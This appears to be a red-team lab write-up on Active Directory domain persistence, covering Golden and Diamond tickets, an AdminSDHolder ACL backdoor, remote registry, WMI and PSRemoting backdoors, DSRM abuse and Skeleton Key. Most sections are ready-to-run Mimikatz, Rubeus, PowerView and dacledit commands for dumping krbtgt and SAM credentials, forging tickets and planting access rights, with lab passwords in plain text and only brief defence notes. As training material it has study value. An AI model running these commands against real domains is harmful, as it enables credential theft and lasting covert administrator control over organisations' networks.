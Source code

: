 # Some Persistence Techniques
After gaining domain admin privileges, attackers generaly focus on maintaining their
level of access over time. They employ various persistence techniques that allow them
to regain domain admin privileges whenever they want, potentially for months or even
years. In this lab i will explore:
- Golden Ticket
- Diamond Ticket
- AdminSDHolder
- Remote Services/Protocoles SD
- DSRM
- Skeleton Key


## Golden Ticket
### dcsync
With the da credentials with start a new process and perform a dcsync attack to extrat the credentials of the krbtgt account (the account of the Key Distribution Center Sservice).<br>
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:itmanager /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
![alt text](assets/persistence/pth.png)<br>

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
![alt text](assets/persistence/dcsync.png)<br>

### DA tgt forging using low user
We use  the krbtgt account aes key to forge TGT for any user. Since the krbtgt accound passord is not often change this techique can allow the attacker to maintain his access for long periods...<br>

```powershell
C:\AD\Tools\Rubeus.exe golden /aes256:<> /sid:<> /ldap /user:Administrator /printcmd
```
![alt text](assets/persistence/golden1.png)<br>
![alt text](assets/persistence/golden3.png)<br>
![alt text](assets/persistence/golden4.png)<br>

```powershell
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:<> 
/aes256:<> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
![alt text](assets/persistence/golden2.png)<br>
![alt text](assets/persistence/golden5.png)<br>

## Diamond Ticket
One thing to always remember is that a Golden Ticket is a forged ticket, meaning there is no interaction with the KDC (Key Distribution Center). This can be detected by the Blue Team by monitoring for an AS-REP without a corresponding AS-REQ.<br>
In contrast, the Diamond Ticket is more OPSEC-safe. In this attack, we first request a legitimate TGT (Ticket Granting Ticket) from the KDC. Then, using the krbtgt hash, we decode the TGT, modify it, and re-encode it before using it.


### using the curent user security context (tgtdeleg)
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:corp.local /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![alt text](assets/persistence/golden5.png)<br>
![alt text](assets/persistence/golden5.png)<br>

### using user/password
```powershell
C:\AD\Tools\Rubeus.exe -args %Pwn% /krbkey:<> /user:stdent163 /password:UE6pj7HvkSgrGR92 /enctype:aes /ticketuser:administrator /domain:corp.local  /dc:WIN-4E30GDH8UQ6.corp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /pt
```
![alt text](assets/persistence/golden5.png)<br>
![alt text](assets/persistence/golden5.png)<br>

## AdminSDHolder
[Read More](https://www.thehacker.recipes/ad/persistence/adminsdholder)<br>
AdminSDHolder is a container in AD that holds the Security Descriptor applied to members of protected groups. The ACL can be viewed on the AdminSDHolder object itself. The Progation mechanisme that overwrite SD of protected groups and users with the SD of the  AdminSDHolder container runs every hour by default but can run at a different frequency by adding the value AdminSDProtectFrequency to `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters`. This is likely to be noticed by the blue team, as there is a high chance that the AdminSDHolder SD is being monitored.

![alt text](assets/persistence/adminsd1.png)<br>
```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'helpdesk' -target-dn 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' 'corp/administrator':'Password321!'
```

```powershell
Import-Module C:\AD\Tools\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' -PrincipalIdentity helpdesk -Rights All -Verbose
```
![alt text](assets/persistence/adminsd3.png)<br>
![alt text](assets/persistence/adminsd2.png)<br>

```powershell
Import-Module C:\AD\Tools\Invoke-SDpropagator.ps1
Invoke-SDPropagator -ShowProgress -Verbose -timeoutMinutes 1
```
![alt text](assets/persistence/adminsd4.png)<br>
With this, the helpdesk user has Full Control over all protected groups and users. To revert, simply remove the helpdesk ACE from AdminSDHolder and force the propagation again.

## Remote Services/Protocoles SD

### Remote Registry
```powershell
Import-Module C:\AD\Tools\Race.ps1
Add-RemoteRegBackdoor -ComputerName WIN-4E30GDH8UQ6.corp.local -Trustee helpdesk -Verbose

Get-RemoteMachineAccountHash -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose
```
![alt text](assets/persistence/rr1.png)<br>
![alt text](assets/persistence/rr2.png)<br>
![alt text](assets/persistence/rr3.png)<br>
### Remote WMI
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemoteWMI -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose 

Get-WmiObject -Class win32_operatingsystem -ComputerName WIN-4E30GDH8UQ6.corp.local
```
![alt text](assets/persistence/rWMI1.png)<br>
![alt text](assets/persistence/rWMI2.png)<br>

### Powershell Remoting
```powershell
Import-Module C:\AD\Tools\Race.ps1
Set-RemotePSRemoting -SamAccountName helpdesk -ComputerName WIN-4E30GDH8UQ6.corp.local -Verbose

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
![alt text](assets/persistence/pr1.png)<br>
![alt text](assets/persistence/pr2.png)<br>

## DSRM
DSRM sands for Directory Services Restore Mode and on every DC the local admin "Administrator" is the DSRM account. His password i set when promoting the DC...[Read More](https://www.hackingarticles.in/domain-persistence-dsrm/)<br>
![alt text](assets/persistence/dsrm1.png)<br>

### Creds Extraction
![alt text](assets/persistence/dsrm2.png)<br>
```
mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```
![alt text](assets/persistence/dsrm3.png)<br>
```
mimikatz.exe "lsadump::lsa /path" "exit"
```
![alt text](assets/persistence/dsrm4.png)<br>

### Registry Modification
```powershell
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```
![alt text](assets/persistence/dsrm5.png)<br>

```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```
![alt text](assets/persistence/dsrm6.png)<br>

### Usage
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
powershell -ep bypass
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /rc4:<> /run:cmd.exe" "exit"'
```
### Defence Strategies
- Check & monitor the DsrmAdminLogonBehaviour value is not set to 2 inside the Registry key.
- DSRM passwords should be changed regularly at least once a month.


## Skeleton Key
![alt text](assets/persistence/skeletonkey1.png)<br>
[Read More](https://www.thehacker.recipes/ad/persistence/skeleton-key/)<br>
```powershell
Invoke-mimikatz -Command "privilege::debug" "misc::skeleton" -ComputerName WIN-4E30GDH8UQ6.corp.local

Enter-PSSession -ComputerName WIN-4E30GDH8UQ6.corp.local
```
### Notes
- not OPSEC Safe (very noisy)
- Skeleton Key is known to cause issues to ADCS
- if the lsass.exe process is running as PPL (Protected Process Light) the previous command will fail cause getting a handle on a protected process is not allowed.

